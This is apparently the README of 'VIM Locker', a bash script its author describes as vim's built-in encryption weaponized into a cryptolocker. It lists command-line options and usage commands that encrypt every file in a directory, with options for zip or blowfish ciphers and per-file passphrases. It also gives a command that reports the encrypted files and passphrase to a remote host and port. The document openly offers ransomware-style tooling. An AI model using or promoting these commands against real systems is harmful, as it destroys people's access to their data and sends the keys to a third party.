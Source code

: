 # VIM Locker

Did you know vim can encrypt your files?... I didn't either! Once I found out, I knew I had weaponize it into a cryptolocker. So I did that.

TODO: 
* Test all options thoroughly.
* Test HOST option thorooghly.
* Probably spelling errors.
* Stuff.

## Options

```
  -H <IP>	Host ip to send encrpytion information to.
  -P <PORT>	Host port to send encrpytion information to.
  -e <PASS>	Set passphrase for file ( one is generated by default ).
  -l <FILE>	Log application actions to a file ( off by default ).
  -z		Use zip ( not great ) style encryption.
  -b		Use vim's blowfish ( good ) encryption.
  -B		Use vim's blowfish2 ( most goodiest )encryption.
  -n		Generate a new passphrase for each file.
  -v		Display version.
  -s		Silent mode.
  -h		Display this menu. 
```
## Usage

I've built this tool to be very easy to use. Hopefully.

### Typical

Typical useage to be able to cryptolock the files in a directory:

```
$ bash vim_locker.sh -d directory
```

### Report to Host

If you want to report back to a host the files/passphrase, it's pretty simple:

```
$ bash vim_locker.sh -H 192.168.1.2 -P 80 -d directory
```

### Custom Passphrase

If you would like to set a custom passphrase instead of having one generated for you.

```
$ bash vim_locker.sh -d directory -e reallystrongpassword 
```

### Help

Program should default to a help menu when no flags are specified or called with the `-h` option.

```
$ bash vim_locker.sh -h 
```

## Credits
Kent 'picat' Gruber
